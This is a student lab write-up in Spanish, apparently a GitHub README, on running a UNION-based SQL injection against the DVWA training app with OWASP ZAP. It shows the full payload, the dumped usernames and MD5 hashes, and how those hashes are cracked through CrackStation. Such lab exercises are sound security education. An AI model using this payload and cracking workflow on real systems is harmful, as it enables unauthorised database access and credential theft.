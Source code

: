 # Act. 3.1 Práctica Ataques de inyección SQL usando OWASP Zap.

### Preconfiguración de OWASP Zap.

Abrimos nuestro OWASP Zap y seleccionamos escaneo manual.

![](imgs/capture_1.png)

Luego agregamos la url que queramos escanear y damos clic a inicializar navegador.

    http://192.168.68.105/dvwa/

![](imgs/capture_2.png)

### Preparación del ataque.

Nos colocaremos en nuestro SQL Injection de nuestro DVWA.

![](imgs/capture_3.png)

Y seleccionaremos el último enlace consultado de nuestro historial.

    https://192.168.68.105/dvwa/vulnerabilities/sqli/

![](imgs/capture_4.png)

Para luego, modificar el método get del request.

    GET http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=%27+UNION+SELECT+user%2C+password+FROM+users--+&Submit=Submit HTTP/1.1

![](imgs/capture_5.png)

### Ejecución del ataque.

Seleccionaremos el botón, replicar en el navegador.

![](imgs/capture_6.png)

Y obtendremos los siguientes resultados.

![](imgs/capture_7.png)

    ID: ' UNION SELECT user, password FROM users--
    First name: admin
    Surname: 5f4dcc3b5aa765d61d8327deb882cf99

    ID: ' UNION SELECT user, password FROM users--
    First name: gordonb
    Surname: e99a18c428cb38d5f260853678922e03

    ID: ' UNION SELECT user, password FROM users--
    First name: 1337
    Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

    ID: ' UNION SELECT user, password FROM users--
    First name: pablo
    Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

    ID: ' UNION SELECT user, password FROM users--
    First name: smithy
    Surname: 5f4dcc3b5aa765d61d8327deb882cf99

Ya con ello tendremos los nombre de usuario y contraseña de cada individuo.

### Desencriptación de las contraseñas.

Para obtener el verdadero valor de cada contraseña obtenida, utilizaremos un desencriptador de contraseñas.

    https://crackstation.net/

![](imgs/capture_8.png)

Siendo que después de su ejecución, obtendremos estos valores.

| Contraseñas encriptadas          | Tipo de hash | Contraseñas desencriptadas |
| -------------------------------- | ------------ | -------------------------- |
| 5f4dcc3b5aa765d61d8327deb882cf99 | md5          | password                   |
| e99a18c428cb38d5f260853678922e03 | md5          | abc123                     |
| 8d3533d75ae2c3966d7e0d4fcc69216b | md5          | charley                    |
| 0d107d09f5bbe40cade3de5c71e9e9b7 | md5          | letmein                    |
| 5f4dcc3b5aa765d61d8327deb882cf99 | md5          | password                   |

### Contenido audiovisual consultado.

- Archidote [@archidote8426]. (2021, agosto 21). SQL Injection (DVWA - Medium Level) with OWASP Zap tool. Youtube. https://www.youtube.com/watch?v=iTIrRa-Eu4o

- Cyber Security [@CyberSecurity1]. (2022, abril 16). SQL Injection in DVWA || SQL Injection - Damn Vulnerable Web Application (DVWA). Youtube. https://www.youtube.com/watch?v=GBxTcM9IM3Q
